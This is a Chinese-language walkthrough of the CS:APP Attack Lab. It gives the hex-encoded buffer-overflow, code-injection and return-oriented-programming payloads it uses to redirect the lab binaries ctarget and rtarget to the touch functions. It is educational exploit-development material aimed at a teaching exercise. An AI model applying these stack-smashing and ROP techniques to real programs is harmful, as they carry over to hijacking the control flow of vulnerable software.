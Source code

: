 注意，运行./rtarget或者ctarget可能有问题，加上-q即可

## attack1:

我使用的操作系统是Ubuntu 22.04版本，在这个版本上运行ctarget程序会出现Segmentation Fault。如果你用gdb调试会发现在__vfprintf_internal方法内部有问题，具体修复方法可以参考：[Fix CS:APP Attack Lab Segmentation Fault on Newest Ubuntu 22.04](https://blog.rijuyuezhu.top/posts/db646f34/)。建议使用更老的linux版本。我使用18是没问题的。

请先阅读attacklab.pdf

`hex2raw` 是一个字一个字的读，也就是一次读8个字节，但是字内部是小端，比如attack1.txt：`41 00 00 00 00 00 00 00`

执行./hex2raw < attack1.txt会输出 `A`。`./hex2raw < attack1.txt | ./ctarget -q`我们可以用这个命令执行程序

根据pdf的意思，我们首先要侵入一个程序，让它运行 `4017c0 <touch1>:` 。方法需要你知道栈的运行过程，当我们调用函数的时候，会自动的把程序的返回地址先压入栈中，然后再进入调用的函数，调用完成后返回，示意图如下：

```
[ 返回地址 ]        <--- 函数返回后，跳转到这里执行
[ buffer (x 字节) ]<--- 局部变量，用于存储用户输入
```

我们这个程序是从 `401968 <test>` 函数开始的

```asm
0000000000401968 <test>:
  401968:	48 83 ec 08          	sub    $0x8,%rsp
  40196c:	b8 00 00 00 00       	mov    $0x0,%eax
  401971:	e8 32 fe ff ff       	callq  4017a8 <getbuf>
```

```asm
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop
```

getbuf给栈分配了40个字节的空间，40个之后就是返回地址了。所以我们先随便输入40个字节，再把后面的八个字节换成touch1的地址4017C0就成功了。

输入
```asm
A0 00 00 00 00 00 00 00
B0 00 00 00 00 00 00 00
C0 00 00 00 00 00 00 00
D0 00 00 00 00 00 00 00
E0 00 00 00 00 00 00 00
C0 17 40 00 00 00 00 00
```

## attack2:

rsp进入getbuf的时候是0x5561dca0，rsp减40个字节就是0x5561dc78。我们需要。我们的返回地址设成栈顶，并把栈顶的内容换成一个命令的二进制，计算机会自动执行他们。90是占位符，没作用

输入
```asm
48 BF FA 97 B9 59 00 00 00 00	/*	mov rdi, 0x59B997FA	*/
68 EC 17 40 00					/*	push 0x004017EC		*/
C3  							/*	ret					*/
90 90 90 90 90 90 90 90			
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
78 dc 61 55 00 00 00 00
```

注意在 64 位模式下，push 会将 8 字节值压入栈中（即使立即数是 32 位的，也会被符号扩展为 64 位）。如果push四字节后面是一些00 00，那么会被认为是其他的指令，比如add %al, (%rax)，对应的二进制是：00 00


## attack3:

```asm
C7 44 24 28 35 39 42 39			/* mov QWORD PTR [rsp+40], 0x39423935 将 0x35 0x39 0x42 0x39 存入 [rsp + 40(0x28)] */
C7 44 24 2C 39 37 46 41			/* mov QWORD PTR [rsp+44], 0x41463739 将 0x39 0x37 0x46 0x41 存入 [rsp + 44(0x2c)] */
C6 44 24 30 00					/* mov BYTE PTR [rsp+48], 0x00 将 0x00 存入 [rsp + 48(0x30)] （字符串的结束符） 	*/
48 8d 7c 24 28					/*	lea rdi, [rsp+40(0x28)]				*/
68 FA 18 40 00					/*	push 0x004018FA						*/
C3  							/*	ret									*/
90 90 90 90 90 90 90 90			/*	占位符								*/ 
78 dc 61 55 00 00 00 00			/*	0x5561dc78							*/ 
```

第三题和第二题很像，但是第三题我们需要返回字符串的地址，我们可以把字符串存在栈里面，开始我是直接存在离栈很近的地方的，后来发现都被覆盖了，其实题目也提示了这一点。我存在rsp+40的地方就没问题了。然后把字符串开始的地址存入rdi就行了。注意字符串需要小写。


## attack4:

现在我们要用rop的方式完成attack2，也就是通过多条指令的组合完成`mov 0x59B997FA,%rdi`的效果，这些指令需要在farm里面找，也有可能是从一条完整的指令里面摘出几个字节来，具体可以看Fig3A、3B。

观察3A可以发现，mov指令均以48 89开头，那么我们可以搜一下哪里有48 89，这里我会把反汇编的内容改一下：

```asm
00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	movq	%rax,%rdi;	?
  4019a6:	c3                   	retq   
00000000004019ae <setval_237>:
  4019ae:	c7 07 48 89 c7 c7    	movq	%rax,%rdi;	?
  4019b4:	c3                   	retq   
00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movq	%rax,%rdi;	nop
  4019c9:	c3                   	retq   
0000000000401a03 <addval_190>:
  401a03:	8d 87 41 48 89 e0    	movq	%rsp,%rax;
  401a09:	c3                   	retq   
0000000000401a18 <getval_345>:
  401a18:	b8 48 89 e0 c1       	movq	%rsp,%rax;	?
  401a1d:	c3                   	retq 
0000000000401a47 <addval_201>:
  401a47:	8d 87 48 89 e0 c7    	movq	%rsp,%rax;	?
  401a4d:	c3                   	retq   
0000000000401a5a <setval_299>:
  401a5a:	c7 07 48 89 e0 91    	movq	%rsp,%rax;	?
  401a60:	c3                   	retq   
0000000000401a97 <setval_181>:
  401a97:	c7 07 48 89 e0 c2    	movq	%rsp,%rax;	?
  401a9d:	c3                   	retq   
0000000000401aab <setval_350>:
  401aab:	c7 07 48 89 e0 90    	movq	%rsp,%rax;	nop
  401ab1:	c3                   	retq   
```

很明显，我们能看出有两个可以直接用的指令，分别是

`4019c3:	c7 07 48 89 c7 90    	movq	%rax,%rdi;	nop`

和

`401aab:	c7 07 48 89 e0 90    	movq	%rsp,%rax;	nop`

还有popq指令，它可以让栈顶的内容放到我们需要的寄存器中，比如rdi寄存器，理论上我们可以直接把栈顶的内容写上我们要的0x59b997fa，然后pop到rdi里面再返回就行了。不过问题是这个需要命令`5f`，在farm里面没找到。这时候因为我们有rax->rdi的命令，所以我们传入rax也可以，rax命令是`58`

```asm
00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq  
```

用这个就行了。我们直接先返回到0x4019ab，就可以把栈顶的内容放到rax里面，再ret到4019c5，就可以让rdi是栈顶的内容了。

```asm
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
c5 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```

最后再返回到touch2，注意现在运行的命令是rtarget了。